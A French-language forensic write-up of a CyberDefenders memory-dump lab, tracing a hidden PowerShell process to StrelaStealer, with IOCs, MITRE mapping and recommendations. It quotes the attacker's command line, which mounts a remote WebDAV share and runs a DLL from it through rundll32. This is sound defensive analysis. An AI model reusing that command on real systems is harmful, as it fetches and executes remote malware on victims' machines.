# Forensic mémoire Windows — Lab « Reveal » (CyberDefenders)

> Analyse d'un dump mémoire d'un poste de travail d'un établissement financier, suite à une alerte SIEM : identification du processus malveillant, reconstitution de la chaîne d'exécution, évaluation de l'impact et attribution à une famille de malware.

| | |
|---|---|
| **Plateforme** | CyberDefenders (Blue Team Labs) |
| **Catégorie** | Memory Forensics / Endpoint Forensics (Windows) |
| **Preuve analysée** | `192-Reveal.dmp` (crash dump Windows 64 bits) |
| **Outils principaux** | Volatility 3 (2.28.0), Kali Linux, VirusTotal, MITRE ATT&CK |
| **Résultat** | 7 questions sur 7 résolues |
| **Auteure** | ALI Assanatou — Licence Sécurité Informatique, IFRI (Université d'Abomey-Calavi) |

---

## Sommaire

1. [Résumé exécutif](#1-résumé-exécutif)
2. [Contexte et objectifs](#2-contexte-et-objectifs)
3. [Preuve et intégrité](#3-preuve-et-intégrité)
4. [Méthodologie et outils](#4-méthodologie-et-outils)
5. [Synthèse des résultats](#5-synthèse-des-résultats)
6. [Analyse détaillée](#6-analyse-détaillée)
7. [Chronologie reconstituée](#7-chronologie-reconstituée)
8. [Indicateurs de compromission](#8-indicateurs-de-compromission)
9. [Correspondance MITRE ATT&CK](#9-correspondance-mitre-attck)
10. [Limites de l'analyse](#10-limites-de-lanalyse)
11. [Recommandations](#11-recommandations)
12. [Conclusion](#12-conclusion)
13. [Annexe : reproduire l'analyse](#13-annexe--reproduire-lanalyse)

---

## 1. Résumé exécutif

Le dump mémoire provient d'un poste **Windows 10** (`DESKTOP-T51LU0E`) capturé le **15 juillet 2024 à 07:00:08 UTC**. L'analyse révèle qu'un processus **`powershell.exe`** (PID 3692), lancé en **fenêtre cachée** sous le compte **`Elon`** (membre du groupe Administrateurs, intégrité élevée), a exécuté une commande en deux temps :

1. `net use` pour monter un partage **WebDAV** distant, `\\45.9.74.32@8888\davwwwroot\` ;
2. `rundll32` pour exécuter la DLL **`3435.dll`** (fonction `entry`) hébergée sur ce partage.

Il s'agit d'une exécution de charge utile de seconde étape via un utilitaire Windows légitime, technique **T1218.011** (MITRE ATT&CK). L'infrastructure distante (`45.9.74.32`) est associée sur VirusTotal à des échantillons étiquetés **StrelaStealer**, un voleur d'informations ciblant les identifiants de messagerie. La capture a eu lieu environ 5 secondes après le lancement de PowerShell, au moment même de l'attaque.

## 2. Contexte et objectifs

**Scénario.** Le SIEM d'un établissement financier a détecté une activité inhabituelle sur un poste ayant accès à des données financières sensibles. Un dump mémoire de la machine est fourni. Il faut y déceler des signes de compromission, remonter à l'origine de l'anomalie et en évaluer l'étendue pour contenir l'incident.

**Questions du lab :** nom du processus malveillant, PPID de son parent, fichier de seconde étape, répertoire partagé distant, sous-technique MITRE, compte utilisateur, famille du malware.

## 3. Preuve et intégrité

| Élément | Valeur |
|---|---|
| Archive `192-Reveal.zip` — SHA256 | `351e86e29bfa08448f091d84e82b3803ace5e17ad43916a77f9ab7b1c259ceb4` |
| Fichier `192-Reveal.dmp` — SHA256 | `7e724ff06c0967416958752aee8569c4bbc3ea733d572a9d870ebbfedcdf553d` |
| Type (`file`) | MS Windows 64bit crash dump, version 15.19041, 2 processeurs, DumpType 0x1, 524 288 pages |
| Taille approximative | 2 Go (524 288 pages de 4 Ko) |

L'archive est protégée par un mot de passe fourni par la plateforme. Le dump a été extrait puis placé en **lecture seule** (`chmod a-w`) avant toute analyse.



**Informations système** (`windows.info`) :

| Élément | Valeur |
|---|---|
| Outil | Volatility 3 Framework 2.28.0 |
| Système | Windows 10, build 19041 (`19041.1.amd64fre.vb_release.1912`), 64 bits |
| Processeurs | 2 |
| Racine système | `C:\Windows` |
| **Heure de capture** | **2024-07-15 07:00:08 UTC** |



## 4. Méthodologie et outils

| Étape | Action | Plugin / outil |
|---|---|---|
| 1 | Vérification d'intégrité, mise en lecture seule | `sha256sum`, `file`, `chmod` |
| 2 | Identification du système et de l'heure de capture | `windows.info` |
| 3 | Inventaire des processus, repérage des anomalies | `windows.pslist`, `windows.pstree` |
| 4 | Lecture des lignes de commande du processus suspect | `windows.cmdline` |
| 5 | Identification du compte d'exécution | `windows.getsids`, `windows.envars` |
| 6 | Qualification de la technique d'attaque | MITRE ATT&CK |
| 7 | Attribution (pivot sur l'IP distante) | VirusTotal |

Chaque sortie a été conservée dans un dossier `outputs/` (`tee`) et capturée pour servir de preuve.

## 5. Synthèse des résultats

| # | Question | Réponse | Source principale |
|---|---|---|---|
| 1 | Processus malveillant | **`powershell.exe`** (PID 3692) | `windows.pslist` |
| 2 | PPID du parent | **`4120`** | `windows.pslist` |
| 3 | Fichier de seconde étape | **`3435.dll`** | `windows.cmdline --pid 3692` |
| 4 | Répertoire partagé distant | **`davwwwroot`** (sur `45.9.74.32:8888`) | `windows.cmdline --pid 3692` |
| 5 | Sous-technique MITRE | **`T1218.011`** (Rundll32) | MITRE ATT&CK |
| 6 | Compte utilisateur | **`Elon`** | `windows.getsids`, `windows.envars` |
| 7 | Famille de malware | **StrelaStealer** | VirusTotal (pivot sur l'IP) |

## 6. Analyse détaillée

### Q1 — Processus malveillant

**Méthode.** Sauvegarde des listes de processus (`pstree`, `pslist`, `cmdline`) dans `outputs/`, puis lecture de `pslist.txt`. Le dump a été pris le 15 juillet à 07:00:08 : les processus créés juste avant cette heure sont les plus intéressants.



**Constat.** Tous les processus du système datent du démarrage (4 juillet) ou de l'activité normale de la matinée (Edge, Thunderbird, Bloc-notes, Calculatrice, entre 04:02 et 06:59). À **07:00:03**, un groupe de trois processus apparaît, dont **`powershell.exe` (PID 3692)** qui lance à son tour `conhost.exe` (6892) puis **`net.exe` (2416)** à 07:00:06.

**Réponse.** **`powershell.exe`**.

**Analyse.** PowerShell est un binaire légitime : ce qui le rend suspect est son contexte (parent inhabituel, création quelques secondes avant la capture, ligne de commande, cf. Q3).

---

### Q2 — PPID du processus malveillant

**Constat.** Dans `pslist`, la ligne de `powershell.exe` indique un PPID de **4120**. Le processus `wordpad.exe` (PID 9112) a **le même parent**, créé à la même seconde (07:00:03). Le PID 4120 n'apparaît pas dans la liste des processus actifs.



**Réponse.** **4120**.

**Analyse.** Le parent n'existe plus dans la liste : il s'est probablement terminé après avoir lancé ses deux enfants, ce qui est typique d'un lanceur éphémère. Son identité n'a pas été établie dans cette analyse (voir les limites).

---

### Q3 — Fichier de seconde étape

**Méthode.** Lecture de la ligne de commande de PowerShell :

```bash
vol -f 192-Reveal.dmp windows.cmdline --pid 3692 | tee ../outputs/cmdline_3692.txt
```

**Constat.**

```
powershell.exe -windowstyle hidden net use \\45.9.74.32@8888\davwwwroot\ ; rundll32 \\45.9.74.32@8888\davwwwroot\3435.dll,entry
```



**Réponse.** **`3435.dll`**, une DLL exécutée avec `rundll32` via sa fonction exportée `entry`.

**Analyse.** La commande est volontairement discrète : `-windowstyle hidden` masque la fenêtre PowerShell, et la DLL est exécutée **directement depuis un partage distant**, sans être enregistrée sur le disque local. Une recherche de `3435.dll` avec `windows.filescan` n'a d'ailleurs donné aucun résultat, ce qui est cohérent avec cette exécution à distance.

---

### Q4 — Répertoire partagé sur le serveur distant

**Constat.** La même ligne de commande montre une commande `net use`, exécutée par `net.exe` (lancé par PowerShell), qui monte le partage `\\45.9.74.32@8888\davwwwroot\`.



**Réponse.** **`davwwwroot`**.

**Analyse.**
- **`45.9.74.32`** est l'adresse IP du serveur distant et **`8888`** son port.
- La syntaxe `\\IP@PORT\davwwwroot` est celle d'un partage **WebDAV** (accès aux fichiers par HTTP), qui traverse facilement les pare-feux puisqu'il utilise du trafic web.

---

### Q5 — Sous-technique MITRE ATT&CK

**Méthode.** L'utilitaire Windows qui exécute la DLL est `rundll32.exe`. Recherche de la technique correspondante dans *System Binary Proxy Execution* (T1218) sur attack.mitre.org.



**Réponse.** **T1218.011** : *System Binary Proxy Execution: Rundll32*.

**Analyse.** Les attaquants utilisent `rundll32.exe`, binaire signé par Microsoft, pour exécuter indirectement du code malveillant, ce qui rend l'activité plus discrète vis-à-vis des outils de détection.

---

### Q6 — Compte utilisateur du processus malveillant

**Méthode.**

```bash
vol -f 192-Reveal.dmp windows.getsids | grep "3692"
vol -f 192-Reveal.dmp windows.envars --pid 3692 | grep -i -E "USERNAME|USERPROFILE|COMPUTERNAME"
```

**Constat.** Le jeton du processus 3692 montre :

| SID | Nom |
|---|---|
| `S-1-5-21-3274565340-3808842250-3617890653-1001` | **Elon** |
| `…-513` | Domain Users |
| `S-1-5-32-544` | Administrators |
| `S-1-5-114` | Local Account (Member of Administrators) |
| `S-1-16-12288` | High Mandatory Level |



Les variables d'environnement confirment : `USERNAME = Elon`, `USERPROFILE = C:\Users\Elon`, `COMPUTERNAME = DESKTOP-T51LU0E`.



**Réponse.** **`Elon`**.

**Analyse.** Le compte est **administrateur local** et le processus tourne en **intégrité élevée** (High) : l'attaquant disposait de privilèges étendus sur la machine. Le compte `Elon` doit être considéré comme **compromis**.

---

### Q7 — Famille du malware

**Méthode.** La DLL n'étant pas récupérable depuis le dump, l'attribution passe par l'infrastructure : recherche de l'IP `45.9.74.32` sur VirusTotal, puis examen des fichiers qui communiquent avec elle, en retenant ceux qui ont les scores de détection les plus élevés.

**Constat (VirusTotal, novembre 2026).**
- IP signalée comme malveillante par **15 moteurs sur 92** ; réseau `45.9.74.0/24`, **AS207569 (Ihor Hosting Ltd)**, Finlande.
- Onglet *Relations* : **461 fichiers communicants** (principalement des scripts `.bat`, des archives ZIP et des exécutables) et 43 fichiers faisant référence à l'IP.



| Échantillon | Type | Détections | Étiquette principale | Familles |
|---|---|---|---|---|
| `04ac2b90b80c956f4858cba836c57106a47695da7962bc6c025ae3215a076542` | ZIP | 35/64 | `trojan.strelastealer/agentsetter` | strelastealer, agentsetter, batdl |
| `42ebff6e9f582a632153c478033b7bfa347bde87f7fe594e9f0729268cf30174` (`y3kaoz.exe`) | EXE | 44/70 | `trojan.strela/stealer` | strela, stealer, password |
| `055158544a52317ede0665adcb7122fdee64e731c12bf4e3907fa640a202b047` | BAT | 21/62 | `trojan.batdl/cryp` | batdl, cryp, strelastealer |



**Réponse.** **StrelaStealer**.

**Analyse.** Les trois échantillons retenus convergent vers la même étiquette de famille. D'après la littérature publique sur cette famille, StrelaStealer est un **voleur d'informations** qui vise les identifiants de clients de messagerie. Ce point est cohérent avec la présence de Thunderbird sur le poste, mais il n'a pas pu être vérifié dans le dump.

## 7. Chronologie reconstituée

Toutes les heures sont en UTC (source : `windows.pslist`, `windows.info`).

| Date et heure | Événement |
|---|---|
| 2024-07-04 10:44 | Démarrage du système (processus système, session ouverte) |
| 2024-07-15 04:02 – 06:59 | Activité utilisateur normale : Edge, Thunderbird (04:03:59), Bloc-notes (04:08:10), Calculatrice (04:09:51), puis Edge et indexation de recherche (06:58–06:59) |
| **2024-07-15 07:00:03** | Création de `wordpad.exe` (9112) et de **`powershell.exe` (3692)**, parent commun **4120**, puis `conhost.exe` (6892) |
| **2024-07-15 07:00:06** | **`net.exe` (2416)**, enfant de PowerShell : montage du partage WebDAV |
| 2024-07-15 07:00:08 | **Capture de la mémoire** |

Aucun processus `rundll32.exe` n'est présent dans la liste : la capture est intervenue entre le montage du partage et l'exécution de la DLL, ou au tout début de celle-ci.

## 8. Indicateurs de compromission

| Type | Valeur | Remarque |
|---|---|---|
| Adresse IP | `45.9.74.32` | Serveur distant (AS207569, Ihor Hosting Ltd) |
| Port | `8888` | Port du partage WebDAV |
| Chemin UNC | `\\45.9.74.32@8888\davwwwroot\` | Partage monté par `net use` |
| Fichier | `3435.dll` (fonction `entry`) | DLL de seconde étape |
| Commande | `powershell.exe -windowstyle hidden net use … ; rundll32 …\3435.dll,entry` | Ligne de commande complète |
| Processus | `powershell.exe` PID 3692, `net.exe` PID 2416, `conhost.exe` PID 6892 | Créés entre 07:00:03 et 07:00:06 |
| Compte | `Elon` (SID …-1001) | Compte compromis |
| Hôte | `DESKTOP-T51LU0E` | Machine analysée |
| Domaines associés | `haelma.shop`, `farpetor.shop`, `gotrada.shop` | Résolus vers l'IP en juillet 2024 (VirusTotal, DNS passif) |
| Hachages VirusTotal | Voir tableau Q7 | Échantillons liés à StrelaStealer |

## 9. Correspondance MITRE ATT&CK

| Constat | Tactique | Technique |
|---|---|---|
| Exécution de la commande dans PowerShell | Execution | **T1059.001** — PowerShell |
| `-windowstyle hidden` | Defense Evasion | **T1564.003** — Hidden Window |
| Exécution de la DLL via `rundll32` | Defense Evasion | **T1218.011** — System Binary Proxy Execution: Rundll32 |
| Chargement de la charge depuis un serveur distant (WebDAV) | Command and Control | **T1105** — Ingress Tool Transfer *(probable)* |

## 10. Limites de l'analyse

- **Charge utile non récupérée.** `3435.dll` n'a pas été trouvée dans le dump (`filescan` sans résultat) : son comportement n'a pas été analysé directement.
- **Attribution indirecte (Q7).** La famille repose sur les échantillons liés à l'IP sur VirusTotal. Une IP peut être partagée ou réutilisée ; la conclusion devrait être confirmée par l'analyse de la DLL elle-même.
- **Processus parent 4120.** Il n'est plus actif et son identité n'a pas été établie dans ce rapport. Une recherche de processus terminés (`windows.psscan`) permettrait de l'identifier.
- **Vecteur initial inconnu.** Le dump ne montre pas comment la commande PowerShell a été déclenchée (hameçonnage, document, script…).
- **Impact non confirmé.** Le vol effectif de données n'est pas démontré par ce dump.
- **Données VirusTotal évolutives.** Les scores et libellés cités sont ceux consultés en novembre 2026.

## 11. Recommandations

**Confinement immédiat**
1. Isoler `DESKTOP-T51LU0E` du réseau et conserver la mémoire et le disque comme preuves.
2. Bloquer `45.9.74.32` (et les domaines associés) au niveau pare-feu et proxy.
3. Désactiver le compte `Elon`, réinitialiser ses mots de passe et ceux des comptes de messagerie qu'il utilisait (voleur d'identifiants probable), révoquer ses sessions.
4. Rechercher la même ligne de commande ou des connexions vers cette IP sur les autres postes.

**Prévention et détection**
1. Bloquer les connexions WebDAV sortantes et désactiver le service *WebClient* là où il n'est pas nécessaire.
2. Alerter sur `rundll32.exe` chargeant une DLL depuis un chemin UNC ou distant.
3. Journaliser PowerShell (Script Block Logging, événement 4104) et alerter sur `-windowstyle hidden` associé à `net use`.
4. Appliquer le principe du moindre privilège : l'utilisateur n'a pas besoin des droits d'administrateur au quotidien.
5. Renforcer le filtrage des e-mails et sensibiliser les utilisateurs au hameçonnage.

## 12. Conclusion

